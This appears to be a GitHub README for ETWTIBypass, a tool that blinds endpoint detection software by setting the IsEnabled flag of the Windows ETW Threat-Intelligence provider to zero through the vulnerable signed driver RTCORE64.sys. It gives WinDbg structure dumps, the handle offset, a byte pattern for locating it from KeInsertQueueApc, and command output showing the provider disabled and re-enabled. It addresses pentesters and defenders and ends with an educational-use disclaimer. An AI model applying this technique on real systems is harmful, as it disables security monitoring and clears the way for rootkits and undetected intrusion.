

# ETW-TI Kernel Bypass

## Warning

Even though you can download the binaries from the `releases`, you have to make sure that the offsets and the binary search opcodes done is the same on your windows version or you will get a **BLUE SCREEN OF DEATH**

## Prerequisistes

This is an advanced topic requiring the following prerequisites:

- Assembly understanding

- Familiarity with C programming

- Experience with WinDbg

- Familiarity with IDA

- Windows kernel exploitation knowledge, including R/W primitives

## Tools Used

WinDbg: [Windows Debugging Tools](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/)

IDA: [Hex-Rays IDA Free](https://hex-rays.com/ida-free)

## Kernel Debugging Setup

To debug your local kernel (for fixing your offsets and reversing), follow the instructions here: [Setting up local kernel debugging](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/setting-up-local-kernel-debugging-of-a-single-computer-manually)

## Target Audience

This project is for both pentesters and defenders to understand how attackers can bypass EDR kernel implementations.

## Purpose

- For everyone to be able to learn how technically bypassing EDR (Network Callbacks) is done.
- For having the flexibility to create your own tool which make it pretty easier to bypass signature based detection.
- For researchers to be able to play around the code and debug and reverse.

## Attacker Abuse Cases

An attacker with administrative privileges may attempt to disable EDR capabilities to install a rootkit for example. To interact with the kernel, a signed Microsoft driver is required. Since unsigned drivers cannot be loaded with Microsoft mitigations enabled (e.g., VBS, Hyper-V), attackers typically exploit vulnerable signed drivers that have not been blacklisted.

**ETWTIBypass llbackKernelBypass project uses RTCORE64.sys driver which is not yet blocklisted by MICROSOFT**

## Introduction to ETW-TI Kernel Bypass

The Event Tracing for Windows (ETW) provider "Windows-Threat-Intelligence (TI)", abbreviated ETW TI in the rest of the article, allows EDRs to receive information about the use of certain Windows APIs. For example, the ETW TI event provider allows you to log NtReadVirtualMemory system calls via the EtwTiLogReadWriteVm function, as well as the associated contextual information (source and destination process, size read, address of the virtual memory concerned, etc.). Because ETW TI functions always check that the ETW TI event provider is enabled (via a call to the EtwProviderEnabled function), one workaround is to make the provider appear disabled.

Reference: https://connect.ed-diamond.com/misc/misc-118/techniques-de-contournement-de-la-supervision-des-edr

## How does it work

Reference: https://connect.ed-diamond.com/misc/misc-118/techniques-de-contournement-de-la-supervision-des-edr

Based on previous research, we know that `nt!EtwThreatIntProvRegHandle` in the handle that we need.

<pre>
lkd> dqs nt!EtwThreatIntProvRegHandle L1
fffff806`904fe358  <mark>ffff950e`64cff810</mark>
</pre>

This handle, used in particular for writing events by the `EtwWrite` function, corresponds to a pointer to the `_ETW_REG_ENTRY` Structure.

<pre>
lkd> dt _ETW_REG_ENTRY ffff950e`64cff810
nt!_ETW_REG_ENTRY
   +0x000 RegList          : _LIST_ENTRY [ 0xffff950e`645c6718 - 0xffff950e`645c6718 ]
   +0x010 GroupRegList     : _LIST_ENTRY [ 0xffff950e`64cff820 - 0xffff950e`64cff820 ]
   <mark>+0x020 GuidEntry        : 0xffff950e`645c66e0 _ETW_GUID_ENTRY</mark>
   +0x028 GroupEntry       : (null) 
   +0x030 ReplyQueue       : 0xfffff806`901fda7a _ETW_REPLY_QUEUE
   +0x030 ReplySlot        : [4] 0xfffff806`901fda7a _ETW_QUEUE_ENTRY
   +0x030 Caller           : 0xfffff806`901fda7a Void
   +0x038 SessionId        : 0
   +0x050 Process          : (null) 
   +0x050 CallbackContext  : (null) 
   +0x058 Callback         : (null) 
   +0x060 Index            : 0
   +0x062 Flags            : 0x41
   +0x062 DbgKernelRegistration : 0y1
   +0x062 DbgUserRegistration : 0y0
   +0x062 DbgReplyRegistration : 0y0
   +0x062 DbgClassicRegistration : 0y0
   +0x062 DbgSessionSpaceRegistration : 0y0
   +0x062 DbgModernRegistration : 0y0
   +0x062 DbgClosed        : 0y1
   +0x062 DbgInserted      : 0y0
   +0x062 DbgWow64         : 0y0
   +0x062 DbgUseDescriptorType : 0y0
   +0x062 DbgDropProviderTraits : 0y0
   +0x064 EnableMask       : 0x1 ''
   +0x065 GroupEnableMask  : 0 ''
   +0x066 HostEnableMask   : 0 ''
   +0x067 HostGroupEnableMask : 0 ''
   +0x068 Traits           : (null) 
</pre>

The _ETW_REG_ENTRY structure contains a GuidEntry attribute that stores a pointer to an _ETW_GUID_ENTRY structure.

<pre>
lkd> dt _ETW_GUID_ENTRY 0xffff950e`645c66e0 
nt!_ETW_GUID_ENTRY
   +0x000 GuidList         : _LIST_ENTRY [ 0xffff950e`64684828 - 0xffff950e`647faca0 ]
   +0x010 SiloGuidList     : _LIST_ENTRY [ 0xffff950e`645c66f0 - 0xffff950e`645c66f0 ]
   +0x020 RefCount         : 0n2
   +0x028 Guid             : _GUID {f4e1897c-bb5d-5668-f1d8-040f4d8dd344}
   +0x038 RegListHead      : _LIST_ENTRY [ 0xffff950e`64cff810 - 0xffff950e`64cff810 ]
   +0x048 SecurityDescriptor : 0xffffc885`0d4d59a0 Void
   +0x050 LastEnable       : _ETW_LAST_ENABLE_INFO
   +0x050 MatchId          : 0x00000114`dcfa5555
   <mark>+0x060 ProviderEnableInfo : _TRACE_ENABLE_INFO</mark>
   +0x080 EnableInfo       : [8] _TRACE_ENABLE_INFO
   +0x180 FilterData       : (null) 
   +0x188 SiloState        : 0xffff950e`64684000 _ETW_SILODRIVERSTATE
   +0x190 HostEntry        : (null) 
   +0x198 Lock             : _EX_PUSH_LOCK
   +0x1a0 LockOwner        : (null) 
</pre>

Within this object is the ProviderEnableInfo field (type _TRACE_ENABLE_INFO) that determines whether or not the event provider is enabled.

<pre>
lkd> dx -id 0,0,ffff950e685b2080 -r1 (*((ntkrnlmp!_TRACE_ENABLE_INFO *)0xffff950e645c6740))
(*((ntkrnlmp!_TRACE_ENABLE_INFO *)0xffff950e645c6740))                 [Type: _TRACE_ENABLE_INFO]
    <mark>[+0x000] IsEnabled        : 0x1 [Type: unsigned long]</mark>
    [+0x004] Level            : 0xff [Type: unsigned char]
    [+0x005] Reserved1        : 0x0 [Type: unsigned char]
    [+0x006] LoggerId         : 0x0 [Type: unsigned short]
    [+0x008] EnableProperty   : 0x40 [Type: unsigned long]
    [+0x00c] Reserved2        : 0x0 [Type: unsigned long]
    [+0x010] MatchAnyKeyword  : 0x114dcfa5555 [Type: unsigned __int64]
    [+0x018] MatchAllKeyword  : 0x0 [Type: unsigned __int64]
</pre>

`IsEnabled` field determines whether or not the event provider is enabled or disabled.

## Code - EnumerateETW Function

We just need to reflect that in our code and and change `IsEnabled` to `0x00`.

First step is to get the virtual address of `nt!EtwThreatIntProvRegHandle`

First let's get the offset to the function from the nt base

<pre>
lkd> ? nt!EtwThreatIntProvRegHandle - nt
Evaluate expression: 15721304 =  <mark>00000000`00efe358</mark>
</pre>

Then copy the `ntoskrnl.exe` from `c:/windows/system32` to open it in IDA.

Then in IDA, first of all we rebase the IMAGEBASE to 0x00, to make the offsets we get in `windbg` from the nt base the actual address in IDA, without any additional calculations.

Then in IDA, lets go to that address by going to `Jump => Jump to Address` and use `00efe358`

Now we can hover our mouse on `nt!EtwThreatIntProvRegHandle` => click on it => and then press x for cross reference which will tell us who is actually using that handle.

The first function that pops up is `nt!KeInsertQueueApc` which is using the handle.

<pre>
lkd> u
nt!KeInsertQueueApc+0x12:
fffff806`8f880392 4155            push    r13
fffff806`8f880394 4156            push    r14
fffff806`8f880396 4157            push    r15
fffff806`8f880398 4883ec70        sub     rsp,70h
<mark>fffff806`8f88039c 4c8b15b5dfc700  mov     r10,qword ptr [nt!EtwThreatIntProvRegHandle (fffff806`904fe358)]</mark>
fffff806`8f8803a3 <mark>458be9</mark>          mov     r13d,r9d
fffff806`8f8803a6 <mark>488be9</mark>          mov     rbp,rcx
fffff806`8f8803a9 4d85d2          test    r10,r10
</pre>

<pre>
const uint8_t patternEtwThreatIntProvRegHandle[] = { 0x45, 0x8b, 0xe9, 0x48, 0x8b, 0xe9 };
</pre>

and so now, we need to do a binary search to find the handle, and for the binary search we can use the opcode highlighed (458be9 and 488be9) and start the search for the exported function `nt!KeInsertQueueApc`.

After getting the address of the handle, we just use our Read / Write primitive to enumerate the field and overwrite it.

## Usage

<pre>
C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 1

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /disable
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 0

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /enable
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380

C:\Users\Vixx\Desktop\Tools\To Publish\Final\ETWTIBypass\x64\Release>ETWTIBypass.exe /etw /check
Connected to device
StartSearch 7ff7b62e0380
Offset efe358
[+] nt!_ETW_REG_ENTRY : ffff8102dedfe590
[+] nt!_ETW_REG_ENTRY : ffff8102de5bf380
[+] IsEnabled: 1
</pre>

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
